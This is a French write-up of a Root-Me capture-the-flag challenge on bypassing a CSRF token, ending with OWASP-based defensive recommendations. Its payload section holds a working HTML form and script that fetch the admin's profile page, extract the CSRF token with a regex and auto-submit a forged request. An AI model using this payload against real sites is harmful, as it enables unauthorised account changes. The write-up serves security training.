



## Challenge 3 – CSRF contournement de jeton

- **Nom :** CSRF - contournement de jeton
- **URL :** https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton

### Étapes de découverte

1. Ouverture du challenge Root-Me et connexion à l’application.
2. Création d'un compte
2. Inspection du formulaire de profil et présence de champs `username`, `status` et du champ caché `token` utilisé comme jeton CSRF.
   
3. La page de profil contient déjà le formulaire avec le token en clair dans le HTML on peut donc forcer la victime (admin) à faire une requête `GET` sur `?action=profile`, son navigateur va récupérer cette page avec le token CSRF correspondant à sa session.
5. On construit un form avec notre `username`, la valeur du check status a `checked` et la valeur du token a vide en attendant de récuperer celui de l'admin.
6. Lorsque l’admin visite la page, on récupère son jeton CSRF grace à `XMLHttpRequest`
6. On insère le jeton récupéré dans le formulaire de profil et on soumet le formulaire pour modifier notre profil.

7. Récupération du flag sur la page private.


### Payloads utilisés et screenshot

Requête mise dans l'input commentaire :
```html
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
    <input id="username" type="text" name="username" value="test">
    <input id="status" type="checkbox" name="status" checked >
    <input id="token" type="hidden" name="token" value="" />
    <button type="submit">Submit</button>
</form>

<script>
    // robot-admin charge la page profil avec le token admin
    xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
    xhttp.send();
    
    // Extraction du token admin
    token_admin = (xhttp.responseText.match(/[0-9a-f]{32}/));

    // Insertion du token dans notre formulaire
    document.getElementById('token').setAttribute('value', token_admin)

    // Soumission du formulaire
    document.csrf_form.submit();
</script>
```

### Les recommandations

- Il est recommandé d’exiger des requêtes POST avec un Content-Type complexe (ex : multipart/form-data) afin d’empêcher les navigateurs d’envoyer automatiquement des requêtes CSRF simples.
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#disallowing-simple-content-types
- Le jeton CSRF doit être unique par session utilisateur, non prédictible, et stocké côté serveur dans la session.
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#synchronizer-token-pattern
- Les protections côté client (ex : SameSite cookies, vérification JavaScript du Origin) renforcent la sécurité mais ne remplacent jamais une vérification CSRF côté serveur mais elles doivent être utilisées uniquement comme mesures complémentaires.
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#client-side-csrf-mitigation-techniques